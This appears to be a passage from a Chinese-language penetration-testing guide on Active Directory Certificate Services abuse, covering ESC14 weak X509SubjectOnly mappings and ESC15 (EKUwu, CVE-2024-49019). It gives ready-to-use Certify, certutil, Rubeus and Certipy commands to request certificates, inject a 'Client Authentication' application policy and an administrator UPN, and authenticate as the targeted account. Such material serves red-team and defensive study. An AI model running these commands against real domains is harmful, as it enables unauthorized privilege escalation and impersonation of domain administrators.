 #### 场景 D：目标具有 X509SubjectOnly 映射

- **前提条件**：目标在 `altSecurityIdentities` 中具有弱 X509SubjectOnly 显式映射。攻击者可以将受害者主体的 `cn` 或 `dNSHostName` 属性设置为与目标的 X509SubjectOnly 映射的主题匹配。然后，攻击者可以注册一个作为受害者的证书，并使用该证书以目标身份进行身份验证。

### 具体操作
#### 场景 A

请求证书模板 `Machine` 的证书
```bash
.\Certify.exe request /ca:<ca> /template:Machine /machine
```
保存并转换证书
```bash
certutil -MergePFX .\esc13.pem .\esc13.pfx
```
使用证书进行身份验证
```bash
.\Rubeus.exe asktgt /user:<user> /certificate:C:\esc13.pfx /nowrap
```
清理（可选）
```bash
Remove-AltSecIDMapping -DistinguishedName "CN=TargetUserA,CN=Users,DC=external,DC=local" -MappingString "X509:<I>DC=local,DC=external,CN=external-EXTCA01-CA<SR>250000000000a5e838c6db04f959250000006c"
```
对于各种攻击场景中的更具体攻击方法，请参考以下内容：[adcs-esc14-abuse-technique](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9#aca0)。

## EKUwu 应用程序策略 (CVE-2024-49019) - ESC15

### 解释

在 https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc 的描述非常详尽。以下是原文的引用。

使用内置的默认版本 1 证书模板，攻击者可以制作一个 CSR，以包含优先于模板中指定的配置扩展密钥使用属性的应用程序策略。唯一的要求是注册权限，它可以用于生成客户端身份验证、证书请求代理和代码签名证书，使用 **_WebServer_** 模板。

### 滥用

以下内容参考了 [这个链接](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu)，点击查看更详细的使用方法。

Certipy 的 `find` 命令可以帮助识别如果 CA 未打补丁，可能易受 ESC15 攻击的 V1 模板。
```bash
certipy find -username cccc@aaa.htb -password aaaaaa -dc-ip 10.0.0.100
```
#### 场景 A：通过 Schannel 直接冒充

**步骤 1：请求证书，注入“客户端身份验证”应用程序策略和目标 UPN。** 攻击者 `attacker@corp.local` 以“WebServer” V1 模板为目标 `administrator@corp.local`（该模板允许由注册者提供主题）。
```bash
certipy req \
-u 'attacker@corp.local' -p 'Passw0rd!' \
-dc-ip '10.0.0.100' -target 'CA.CORP.LOCAL' \
-ca 'CORP-CA' -template 'WebServer' \
-upn 'administrator@corp.local' -sid 'S-1-5-21-...-500' \
-application-policies 'Client Authentication'
```
- `-template 'WebServer'`: 易受攻击的 V1 模板，带有“注册者提供主题”。
- `-application-policies 'Client Authentication'`: 将 OID `1.3.6.1.5.5.7.3.2` 注入 CSR 的应用程序策略扩展中。
- `-upn 'administrator@corp.local'`: 在 SAN 中设置 UPN 以进行冒充。
